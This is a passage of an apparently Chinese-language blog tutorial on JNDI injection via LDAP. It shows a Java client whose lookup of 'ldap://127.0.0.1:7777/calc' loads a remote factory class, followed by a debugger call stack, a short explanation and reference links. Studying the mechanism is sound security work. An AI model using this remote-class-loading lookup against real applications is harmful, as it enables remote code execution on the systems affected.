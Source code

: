 客户端

```java
package JNDI;

import javax.naming.InitialContext;

public class JNDI_Test {
    public static void main(String[] args) throws Exception{
        Object object=new InitialContext().lookup("ldap://127.0.0.1:7777/calc");
    }
}
```

![image-20220516190744143](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220516190744143.png)



#### 调用链

```
getObjectFactoryFromReference:146, NamingManager (javax.naming.spi)
getObjectInstance:188, DirectoryManager (javax.naming.spi)
c_lookup:1086, LdapCtx (com.sun.jndi.ldap)
p_lookup:544, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:203, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:411, InitialContext (javax.naming)
main:7, JNDI_Test (JNDI)
```

其核心还是通过`Reference`加载远程的`Factory`类，最终调用也是RMI一样`javax.naming.spi.NamingManager#getObjectFactoryFromReference`







参考：

https://blog.csdn.net/Xxy605/article/details/122128247

https://www.redteaming.top/2020/08/24/JNDI-Injection/#Reference

https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/#LDAP%E6%94%BB%E5%87%BB%E5%90%91%E9%87%8F
